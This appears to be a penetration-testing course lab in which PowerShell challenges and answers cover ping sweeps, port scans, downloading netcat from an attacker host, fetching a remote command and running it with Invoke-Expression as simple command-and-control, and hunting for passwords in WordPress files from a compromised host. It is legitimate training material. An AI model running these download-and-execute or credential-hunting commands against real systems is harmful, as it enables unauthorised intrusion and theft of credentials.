


Lab 2.6: PowerShell Challenges
Objectives
Next, let’s perform a series of challenges based on techniques a penetration tester may apply, all from within PowerShell. PowerShell is an important skill for a penetration tester or frankly, a Windows power user.
In particular, you’ll do the following:
Challenge 1: You’ll use PowerShell’s built-in capabilities to perform a ping sweep and a port scan
Challenge 2: You’ll move a file from your Linux host using Powershell without Netcat
Challenge 3: You’ll search through WordPress files on your (C:\Wordpress) to find an interesting file containing a password (With Bonus Challenge!)
As with other challenge-based labs in this class, we’ve provided potential answers to each challenge. Look at these answers if you need ideas for how to solve each challenge. You can also refer back to the earlier pages of this course for inspiration in solving each challenge.
Table of Contents
Lab - The Challenges and Answers
Challenge 1: Ping Sweep and Port Scan
For this challenge, we’ll look at how we can scan a target environment from a single system we control, either because it is our testing system or because we've compromised it.
Start by using PowerShell on your system to conduct a ping sweep of IP addresses 10.10.10.1-60.
As a hint, use ping with the
-w 100option to make it wait only up to 100 milliseconds for a response. Otherwise, your sweep will take too long.
As a second hint, in the body of your loop,
echothe current address you are trying so you can get an indication of the status of your command. Then try topingthe target one time (-n 1) and look for the string ttl in your result.
You should find that 10.10.10.5, 10.10.10.10, 10.10.10.20, 10.10.10.50, and 10.10.10.60 all respond to your pings.
Next, using PowerShell, do a port scan of 10.10.10.50, looking for open TCP ports in the range of 70 through 90. You should find that TCP port 80 is open on the target.
Finally, given that TCP port 80 is open on 10.10.10.50, use PowerShell's built-in capabilities to connect to that server using HTTP to retrieve a file, specifically the default webpage, storing its contents into local file c:\file.html. Then display the contents of that file on the screen. Finally, delete the files ... all in one PowerShell command line.
As a hint, remember to separate your commands in a code block (
{ })using a semicolon (;).
As one final hint, look through the PowerShell help to see how to
del(short for delete) a file, withhelp del.
Answer 1:
To start answering this challenge, we first do our ping sweep. We create a series of numbers from 1 through 60 (1..60). Then we pipe those numbers through a ForEach-Object. We display the number (echo $_) and then ping one time (-n 1), waiting no more than 100 milliseconds for a response (-w 100) of target IP address 10.10.10.$_ (which is the number we’re trying to ping). We then scrape through the output of ping using the Select-String (sls) cmdlet to look for ttl in a case-insensitive fashion. Remember, when ping can successfully access a target, it prints out a message saying the ttl of the responses it receives. The resulting command is:
1..60 | % { echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl }

PS C:\Users\sec560> 1..60 | % {echo $_; ping -n 1 -w 100. 10.10.10.$_ | select-string ttl}
1
2
3
a
5
6
7
8
9
10
Reply from 10.10.10.10: bytes=32 time=6ms TTL=128
11
12
13
14
15
16
17
18
19
20
Reply from 10.10.10.20: bytes=32 time=47ms TTL=128
Next, to do our port scan, we start by creating the numbers 70 through 90 (70..90). We'll use this reduced set of ports for the sake of time. We then take each (| %) of those numbers ($_) and display the number on the screen (echo $_). We then echo to create a new object of a TCP client, connecting to 10.10.10.50 on TCP port $_ (the current port number). If this fails, we throw our error message away (2>$null). If it succeeds, we echo that the port ($_) is open.
70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50", $_)) "Port $_ is open" } 2>$null

PS C:\Users\sec560> 70..90 | % {echo echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$)) "Port $_ is open" } 2>null
70
71
72
73
74
75
76
77
78
79
80
Port 80 is open
81
82
83
84
85
86
87
88
89
90
Challenge 2: Move a File from Linux Using Only PowerShell
Part A: Invoke-WebRequest
The Linux server is running a web server. Use the Invoke-WebRequest cmdlet to copy the file from the URL below to your Windows host. This cmdlet is supported in Windows 8 (PowerShell v3) and later.
http://YOUR_LINUX_IP_ADDRESS/SEC560/netcat.zip
Part B: System.Web.WebClient
Windows 7 comes installed with PowerShell v2 installed by default, so the Invoke-WebRequest won't work. Run a PowerShell v2 command to move the same file. You'll need to use System.Web.WebClient as described in the course.
Part C: Retrieve a command and execute it
Create a file named command.txt on your Linux host in /opt/course_www. The file should contain a command to execute in PowerShell. Use PowerShell to grab the file contents and execute the command without saving the file to disk. An example command would be whoami. The file could look like this:
$ cat /opt/course_www/command.txt whoami
You'll need to examine the output object from Invoke-WebRequest to find the property you'll need.
Answer 2:
Part A
To fetch a webpage from the Linux system, we could use the Invoke-WebRequest cmdlet (aliased as wget):
PS C:\> Invoke-WebRequest http://YOUR_LINUX_IP_ADDRESS/SEC560/netcat.zip -outfile netcat.zip
Part B
Alternatively, on a Windows 7 machine, we could invoke the New-Object cmdlet to create a WebClient, calling its .DownloadFile method to grab the default page from the URL below, and store its results in netcat.zip.
http://YOUR_LINUX_IP_ADDRESS/SEC560/netcat.zip
Command:
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://YOUR_LINUX_IP_ADDRESS/SEC560/netcat.zip","netcat.zip")
Part C
First, create the file in Linux. You will have to be root to save to this location.
$ sudo su - # echo whoami > /opt/course_www/command.txt # cat /opt/course_www/command.txt whoami
On Windows, you can use a command like this:
PS C:\> Invoke-Expression (Invoke-WebRequest http://10.10.75.102/command.txt).Content sec560student\sec560
As you can see in the output above, the output of the whoami command is printed after our command. This is useful for command and control (C2). Of course, our C2 is not very robust, but it demonstrates a common method of sending commands to a compromised host.
Challenge 3: Finding Interesting Files
WordPress files copied from a compromised host have been copied back to your system and are located at C:\wordpress. Your goal is to find two passwords in the contents of the files. One is easy; the other is hard (unless you already know where to look)!
Your challenge is to write a PowerShell command that can find this file in C:\Wordpress based on the pattern *password*.txt in the filename. You also want your command to display not only the filename but also its contents.
As a hint, start by constructing a file search based on the name alone, without displaying the contents.
Then pipe each discovered file object to something that can display its contents, using the fullname property.
Bonus
If you have extra time, as a bonus, instead of searching for a filename with the word "password" in it, recurse through all files inside of C:\Wordpress looking for files that contain the word "password". As a hint, you may want to use Select-String to look inside file contents.
Note that for this challenge, we are trying to model a situation where we have access to a compromised system, and we are going to look for passwords. One of the most common things you'll do in penetration testing is to find a password, use it, then repeat.
Answer 3:
Here is one possible solution to Challenge 3.
Now we build up to our answer. We start with ls to find files using -r to recurse. We recurse through C:\Wordpress, looking for a file with a name of *password*.txt. We'll pipe the results into Get-Content to view the file. The Get-Content cmdlet understands the objects being passed down the pipeline, so it knows what file to view.
PS C:\> ls -r C:\Wordpress *password*.txt
But instead of just showing the file’s name, we want to see its contents. We can do that by using the Get-Content cmdlet (alias gc):
PS C:\> ls -r C:\Wordpress *password*.txt | gc
However, our challenge asked us to display the name and the file contents, so we'll have to use the ForEach-Object cmdlet (alias %).
PS C:\> ls -r C:\Wordpress *password*.txt | % { echo $_.fullname; gc $_.fullname }
Your results should look like this:
PS C:\> ls -r C:\Wordpress *password*.txt | % { echo $_.fullname; gc $_.fullname }
C:\wordpress\wp-content\uploads\password.txt
FTP Credentials
username: root
Password: describe-sun-shelter-whispered
For your bonus challenge (where you search the contents of files looking for "password"), one possible solution is:
PS C:\> ls -r C:\Wordpress | select-string -pattern password 2>$null
In this command, as before, we run the ls alias to recurse (-r) through C:\Wordpress, looking for items. The Select-String cmdlet is aware of the objects passed down the pipeline and knows the file to search for our pattern. The pattern we are looking for is password. We throw away error messages to prevent the screen from getting cluttered (2>$null).
There will be a LOT of files in the output. Part of penetration testing is that of a file archaeologist.
Hint 1: Adjust your
lsto look for files with*config*in the name.
The answer is not posted here. Good luck!
Conclusion
And that brings us to the conclusion for our PowerShell lab. In this lab, we’ve used PowerShell for many tasks that a professional penetration tester (or real-world bad person) would apply during the post-exploitation phase. Namely, we’ve searched for files containing potentially sensitive information, such as passwords; we’ve created a backdoor service with nc.exe on a target machine and run it; and we’ve used built-in capabilities to ping sweep, port scan, and fetch webpages from additional targets.